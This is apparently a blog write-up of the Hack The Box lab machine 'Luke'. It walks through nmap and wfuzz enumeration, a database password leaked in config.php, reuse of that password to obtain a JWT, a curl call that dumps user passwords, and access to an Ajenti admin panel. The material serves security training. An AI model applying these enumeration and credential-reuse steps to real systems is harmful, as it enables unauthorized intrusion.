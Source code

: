 ```yaml
---
layout: post
title: "HTB Writeup - Luke"
date: 2019-07-24 12:00:00 +0000
categories: jekyll update
---
```


# HTB Luke - Writeup
<br />
As always let's start with nmap:
```
root@kali:~/# nmap -sV -sT -sC -o nmapinitial luke.htb
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-13 12:57 EET
Nmap scan report for luke.htb (10.10.10.137)
Host is up (0.23s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.xx.xx
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp   open  ssh?
80/tcp   open  http    Apache httpd 2.4.38 ((FreeBSD) PHP/7.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.38 (FreeBSD) PHP/7.3.3
|_http-title: Luke
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
8000/tcp open  http    Ajenti http control panel
|_http-title: Ajenti

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.84 seconds
root@kali:~/Desktop/HTB/boxes/luke#
```

The first noteceable thing is the FTP service which appears to be quite updated, therefore I don't want to investigate it at the moment. However, It allows anonymous login.
We then have HTTP on ports 80, 3000, 8000 and SSH.
From the banners grabbed by nmap, we can see that on port 3000 there is a node.js application, on port 8000 Ajenti Administration Panel. 

Logging in anonymously on the FTP, the only thing we find is a message giving us two potential usernames: Chihiro and Derry. 

# HTTP on 80
On the port 80 we find a simple HTML website: 
<img src="/assets/luke1.PNG" alt="drawing" width="600"/>

Bruteforcing the directories: 
```
root@kali:~/# wfuzz -c --hc 404 -u http://luke.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt  

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://luke.htb/FUZZ
Total requests: 4614

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000011:  C=403      9 L       24 W          213 Ch        ".hta"
000001:  C=200    108 L      240 W         3138 Ch        ""
000012:  C=403      9 L       24 W          218 Ch        ".htaccess"
000013:  C=403      9 L       24 W          218 Ch        ".htpasswd"
001114:  C=301      7 L       20 W          228 Ch        "css"
002020:  C=200    108 L      240 W         3138 Ch        "index.html"
002179:  C=301      7 L       20 W          227 Ch        "js"
002282:  C=200     21 L      172 W         1093 Ch        "LICENSE"
002435:  C=401     12 L       46 W          381 Ch        "management"
002485:  C=301      7 L       20 W          231 Ch        "member"
004286:  C=301      7 L       20 W          231 Ch        "vendor"

Total time: 116.3713
Processed Requests: 4614
Filtered Requests: 4603
Requests/sec.: 39.64892

root@kali:~/Desktop/HTB/boxes/luke# wfuzz -c --hc 404 -u http://luke.htb/FUZZ.php -w /usr/share/wordlists/dirb/common.txt                                                                                         

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.                                                         

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://luke.htb/FUZZ.php
Total requests: 4614

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

000011:  C=403      9 L       24 W          217 Ch        ".hta"
000012:  C=403      9 L       24 W          222 Ch        ".htaccess"
000013:  C=403      9 L       24 W          222 Ch        ".htpasswd"
000994:  C=200      6 L       25 W          202 Ch        "config"
002347:  C=200     39 L      118 W         1593 Ch        "login"

Total time: 140.0363
Processed Requests: 4614
Filtered Requests: 4609
Requests/sec.: 32.94859
```

We got /management, /member, /config.php and /login.php. 

The only interesting things I found are some db credentials on config.php: 
```
$dbHost = 'localhost'; $dbUsername = 'root'; $dbPassword = 'Zk6heYCyv6ZE9Xcg'; $db = "login"; $conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error); 
```

I usualy take note of all the logins location. I tried several with those creds, with no luck. 
The only thing left is the node.js application, which uses JWT tokens for auth: 
```
root@kali:~/Desktop/HTB/boxes/luke# curl http://luke.htb:3000/
{"success":false,"message":"Auth token is not supplied"}
```

Googling the response, I found [this article on medium]([https://medium.com/dev-bits/a-guide-for-adding-jwt-token-based-authentication-to-your-single-page-nodejs-applications-c403f7cf04f4]).

Fuzzing the application, we can see that the /login does exist:
```
root@kali:~/Desktop/HTB/boxes/luke# wfuzz -c --hc 404 -u http://luke.htb:3000/FUZZ -w /usr/share/wordlists/dirb/common.txt

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://luke.htb:3000/FUZZ
Total requests: 4614

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=200      0 L        5 W           56 Ch        ""
002347:  C=200      0 L        2 W           13 Ch        "login"
002348:  C=200      0 L        2 W           13 Ch        "Login"
004245:  C=200      0 L        5 W           56 Ch        "users"

Total time: 147.3540
Processed Requests: 4614
Filtered Requests: 4610
Requests/sec.: 31.31234
```

I tried logging in with the username admin and it worked:
```
curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg","username":"admin"}' http://luke.htb:3000/login 
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4MzczNjA0LCJleHAiOjE1Njg0NjAwMDR9.Xt854IyFtvP4nQbQa_l63hIJ3aewfVT98gqz5gfU5Us"}
```

We now have access to the application with our token!

/users now returns a list of user; /users/username reveals more info about each user:
```
root@kali:~/Desktop/HTB/boxes/luke# curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4MzczNjA0LCJleHAiOjE1Njg0NjAwMDR9.Xt854IyFtvP4nQbQa_l63hIJ3aewfVT98gqz5gfU5Us' http://luke.htb:3000/users/derry
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
```
It is possible to login to /management as Derry. Here we found the credentials for Ajenti, which is a tool to manage a remote Linux using terminal, file manager...etc. 
Once we got access to Ajenti, we owned the box! 




